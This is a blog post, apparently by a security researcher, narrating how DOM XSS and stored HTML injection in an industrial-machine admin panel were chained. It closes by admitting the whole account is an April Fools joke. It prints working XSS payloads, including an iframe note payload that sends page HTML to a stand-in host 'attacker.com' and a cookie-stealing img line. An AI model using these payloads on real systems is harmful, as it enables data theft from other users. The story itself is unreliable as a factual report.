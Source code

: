 ```yaml
---
layout: post
title: From XSS to RCE
description: "I managed to executed
 system commands with XSS."
modified: 01-04-2019
tags: [xss]
image:
  path: /images/featured/xss-to-rce.png
  feature: /featured/xss-to-rce.png
---
```



About 3 days ago, I was recursively bruteforcing subdomains for a domain and I stumbled upon a domain that hosted an admin panel.
I guess it was my lucky day because it didn't require any authentication.
It didn't take me long to realise that it was acutally a web interface to monitor and control industrial machines.
They might have thought that it's well hidden and it needs to be accessed a million times of the by every other employee so they kept it open to keep off the hassle.

I thought I hit the jackpot but then I realised I could just monitor the systems, I needed credentials to make the machines do anything.
<!--more-->
I really wanted to do more so I started to look for what else could be done.
10 minutes into testing and shit and XSStrike found a potenial DOM XSS vulnerability.
The vulnerable code was the following:

```javascript
if (location.hash) {
  if (location.hash.substring(1, 2) === "_") {
    var channel, url, hash = location.href.substring(location.href.indexOf("#") + 3), indexOf = hash.indexOf(",");
    if (indexOf == -1) {
      channel = hash;
    }
    else {
      channel = hash.substring(0, indexOf);
      url = decodeURIComponent(hash.substring(indexOf + 1));
    }
    switch (location.hash.substring(2, 3)) {
      case "2":
        // NameTransport local
        window.parent.parent.easyXDM.Fn.get(channel)(window.name);
        location.href = url + "#_4" + channel + ",";
        break;
      case "3":
        location.href = url + "#_4" + channel + ",";
        break;
      case "4":
        // NameTransport idle
        var fn = window.parent.easyXDM.Fn.get(channel + "_load");
        if (fn) {
          fn();
        }
        break;
    }
  }
}
```

XSStrike picked up that input from a source (`location.hash` in this case) was being supplied to a sink (`location.href` in this case), crafing the payload was upto me.
I finally came up with `#_3channel,javascript:alert(1)//`.

But as an attacker, I would need to send the link to someone who had credentials but I couldn't do it, I didn't have the permission to interact with the staff.
So I started to look for other things, got a bunch of useless CSRFs but at last I found what I needed the most, stored XSS.
There was a feature to include notes so employees can collaborate on things and it was vulnerable to XSS*. I shouldn't call it XSS because I wasn't actually able to execute JavaScript.

Backend was filtering event handlers based on `on[a-zA-Z]*` pattern, `<script`, `href` and `data` attributes and a few other things I tried. Without having the ability to execute JavaScript, it was plain boring HTML injection.

But hey! I had DOM XSS! I knew exactly what to do, I tried injecting `<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:alert(1)//"` and it worked like a charm!
If there's a god, I am pretty sure he is determined to make my life harder than a morning wood because the cookies had the http_only flag :')
That wasn't much of problem because I could still dig deeper if I could see what an authorised person has access to but there was another problem, `script`s weren't allowed to make cross origin requests.
I would say **fuck** at this if I were you but I have said that enough times already.

I am not sure if it was public knowledge already but I discovered a way to access DOM, retrieve data and send it to my server bypassing all the restriction.
Yeah, we all know the `<img src="//attacker.com/?="+document.cookie>` trick but it doesn't work if you try to do `<img src="//attacker.com/?="+document.documentElement.innerHTML>` for obvious reasons.

So here's the trick, `img` tag can make requests to an external resource and the `script` tag can execute arbitrary JavaScript so we can grab the data we want with a `script` tag, create a new `img` element whose `src` has the juicy data in it's URL as `//attacker.com/?=juicy_data`.

Now the final payload had become this,

```javascript
#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//
```

To execute it, I added the following payload to a note

```javascript
<iframe src="http://xx.yy.redacted.com/panel/main.html#_3channel,javascript:(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML//">
```

I hope you know what the above payload does.

Anyways, after tons of response from unathenticated users, I finally got one from an authenticated one. How did I know?
Well it didn't had the string `Log in XYZ...`.
Since the source was very long and couldn't be included in a single HTTP request, I had to `slice()` it which took more than hour but it was fruitful.
It had the endpoints to control various aspects of various machines.

That's it! I wrote a script to automate the process of creating a note that injects payload to executre given command when opened by an authenticated person.

![exploit](/images/featured/xss-to-rce.png)

One more thing. none of it happened, Happy april fools day :p

Anyways, Marvel is better than DC <3
